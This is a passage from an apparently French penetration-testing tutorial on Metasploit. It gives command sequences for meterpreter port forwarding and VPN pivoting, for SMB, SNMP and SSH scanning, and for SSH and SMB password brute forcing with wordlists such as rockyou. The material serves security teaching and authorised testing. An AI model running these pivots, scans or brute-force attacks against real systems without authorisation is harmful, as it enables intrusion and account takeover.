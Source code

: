 > **POURQUOI ?**  
> Le mouvement latéral est essentiel pour démontrer l'impact d'une compromission initiale. Il permet de montrer comment un attaquant pourrait progresser dans le réseau à partir d'un point d'entrée, soulignant ainsi l'importance de la sécurité en profondeur.

### Pivoting avancé avec Metasploit

```
# Port forwarding
meterpreter > portfwd add -l 3389 -p 3389 -r 192.168.2.100

# Utilisation du port forwardé
msf6 > rdesktop 127.0.0.1:3389

# Création d'un VPN avec Metasploit
msf6 > use auxiliary/admin/vpn/msf_vpn
msf6 auxiliary(admin/vpn/msf_vpn) > set ROUTES 192.168.2.0/24
msf6 auxiliary(admin/vpn/msf_vpn) > run
```

## Modules auxiliaires essentiels

### Scanners et énumérateurs

```
# Scanner SMB
msf6 > use auxiliary/scanner/smb/smb_version
msf6 auxiliary(scanner/smb/smb_version) > set RHOSTS 192.168.1.0/24
msf6 auxiliary(scanner/smb/smb_version) > run

# Énumération SNMP
msf6 > use auxiliary/scanner/snmp/snmp_enum
msf6 auxiliary(scanner/snmp/snmp_enum) > set RHOSTS 192.168.1.100
msf6 auxiliary(scanner/snmp/snmp_enum) > run

# Scanner de vulnérabilités SSH
msf6 > use auxiliary/scanner/ssh/ssh_version
msf6 auxiliary(scanner/ssh/ssh_version) > set RHOSTS 192.168.1.0/24
msf6 auxiliary(scanner/ssh/ssh_version) > run
```

### Modules de brute force

```
# Brute force SSH
msf6 > use auxiliary/scanner/ssh/ssh_login
msf6 auxiliary(scanner/ssh/ssh_login) > set RHOSTS 192.168.1.100
msf6 auxiliary(scanner/ssh/ssh_login) > set USER_FILE /usr/share/wordlists/metasploit/unix_users.txt
msf6 auxiliary(scanner/ssh/ssh_login) > set PASS_FILE /usr/share/wordlists/rockyou.txt
msf6 auxiliary(scanner/ssh/ssh_login) > set VERBOSE false
msf6 auxiliary(scanner/ssh/ssh_login) > run

# Brute force SMB
msf6 > use auxiliary/scanner/smb/smb_login
msf6 auxiliary(scanner/smb/smb_login) > set RHOSTS 192.168.1.100
msf6 auxiliary(scanner/smb/smb_login) > set SMBUser Administrator
msf6 auxiliary(scanner/smb/smb_login) > set PASS_FILE /usr/share/wordlists/metasploit/common_passwords.txt
msf6 auxiliary(scanner/smb/smb_login) > run
```
